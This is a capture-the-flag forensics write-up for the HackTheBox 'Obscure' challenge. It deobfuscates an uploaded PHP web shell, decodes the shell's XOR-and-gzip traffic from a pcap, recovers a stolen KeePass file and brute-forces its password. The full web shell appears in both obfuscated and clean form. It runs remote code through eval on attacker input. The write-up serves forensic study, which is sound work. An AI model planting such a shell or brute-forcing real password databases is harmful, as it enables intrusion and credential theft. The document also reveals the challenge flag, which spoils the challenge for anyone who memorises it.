








# WRITE_UP #

## OBSCURE ##

### 1. Analysis ###
* **Given:** a pcap file named `19-05-21_22532255.pcap`, a php script `support.php`, a text document `to-do.txt`.
* **Description:** An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### PASS ME THE KIIII ####
The `to-do.txt` does nothing but repeats the challenge description for us, so let's warm up with an obfuscated php script:

```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```
1. We can easily detect the `$N` is `create_function`
2. Delete the string `u)` in variables `$V` `$d` `$P` `$c` `$B`, we can use CyberChef to do the dirty work for us:



We got a script after deobufuscating:
```php
<?php
$k="80e32263";
$kh="6f8af44abea0";
$kf="351039f4a7b5";
$p="0UlYyJHG87EJqEz6";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){ 
        for($j=0;($j<$c && $i<$l);$j++,$i++)
            {
                $o.=$t{$i}^$k{$j};
            }
        }
        return $o;
    }

if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    @ob_start();
    eval(@gzuncompress(@x(base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}
```
1. After analyzing the deobfuscated script, we can acknowledge the function `x` is a xor function. It will xor each index of string `t` to string `k` to return string `o`: `o += t[i] xor k[j]`

2. The `if` sequence looks like it tries to find the regex `/$kh<somthing_here>$kf/` from the request, after getting the payload the malware will use base64 to decode the payload, decrypts it using the function `x`, decompresses it, then executes.
3. The ouput is being indulged by variable `o`, get compressing, then call function `x` again, then get the final output by encode the string in base64 format.
4. The final output payload should look like this: `0UlYyJHG87EJqEz66f8af44abea0<final_payload>351039f4a7b5`

Now we can open the `pcap` file to see if `Wireshark` catch the pattern we found:



This is one example, we can write a small php script the upload it to a php compiler online to see what data the attacker exfiltrated:

```php
<?php
$k="80e32263";
$kh="6f8af44abea0";
$kf="351039f4a7b5";
$p="0UlYyJHG87EJqEz6";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){ 
        for($j=0;($j<$c && $i<$l);$j++,$i++)
            {
                $o .= $t[$i]^$k[$j];
            }
        }
        return $o;
    }
$string = "0UlYyJHG87EJqEz66f8af44abea0QKzo43k49AMoNoVOfAMh+6h3euEZJvkTlblqP34rlZqPhxDgKLYMz7NpqfQ9IR9FOXy0OfVbUgo/PF3MxrMw/JOdJebwjE2y6VAxUFnyA4H4dHQNgV49YatbqT0it9IXYf5kzoE4+kfGnZ/dTAsyCesTC0i5V+gJQw6bYm/nU3U/lrYGyl+dgvIOURfl0fvGm0hmr0RZKQ==351039f4a7b5";
preg_match("/$p$kh(.*)$kf/", $string, $matches);
$string = $matches[1];
function decode($string, $k)
{
    @ob_start();
    $o=@base64_decode($string);
    $o=@x($o,$k);
    $o=gzuncompress($o);
    print("$o\n");
}
decode($string, $k)
?>
```
In `TCP stream 23`, after decoding the payload we get this:



Looks like the attacker ran `ls -la` to check the existing files in victim's directory `/home/developer`. In the output a file name `pwdb.kdbx` caught my eye. After researching, I know that's a file created by `keepass`.

**Keepass:** is a popular, open-source password manager that stores passwords securely. It encrypts the entire database (including usernames, passwords, and notes) and saves it locally as a `.kdbx` file. You can read more about `.kdbx` file here [KDBX File Format Specification](https://keepass.info/help/kb/kdbx.html)


But how we extract the file ? I looked for the `Export Object` in Wireshark but couldn't find it anywhere. Tracing the `TCP stream`, in `stream 25`, I found a large base64 string that matches our pattern above. Using the script I got another string:



Could it be our `pwdb.kdbx` ? I did a quick research to find the `Magic bytes` of the `kdbx` file, and in the same link I gave you previously, it defined the signature by `0x9AA2D903`. However it's also said in the document that `Integers are stored in little-endian byte order`, hence the magic bytes of kdbx file is actually `03 d9 a2 9a`. I used CyberChef to verify if the payload was the file we tried to find, first I only used one recipe `To Hex`, but it didn't work. But remembered that I said the decoded payload also looked like another base64 string ? Using that logic I used another recipe `From Base64`, this time it worked:



We saved the file to our machine. Then I installed `KeePass` to investigate the file further. However when loaded to the app, it required a password. I returned to the pcap file, hunting for the password for minutes but couldn't find it.

Then I do a quick research to see if there's a way to bruteforce or pwn the keepass password. Then I found this page: [Brute Forcing KeePass Database Passwords](https://infosecwriteups.com/brute-forcing-keepass-database-passwords-cbe2433b7beb)

Following the article, then cloning the script of his repository to my machine, then create a virtual environment to install required packages. Then run the script:



It took quite a long time (about 3-4 minutes) so you can grab your coffee, relax or do something else. 



The password is `chainsaw`. Open the KeePass app again, fill out our password, then we should easily log in:



We will find something named `Flag` from username `artikrh` with the password value hidden. Copy the password then you should easily find the flag.

### 3. Solution ###
1. **Result:** The flag is `HTB{pr0tect_y0_shellZ}`


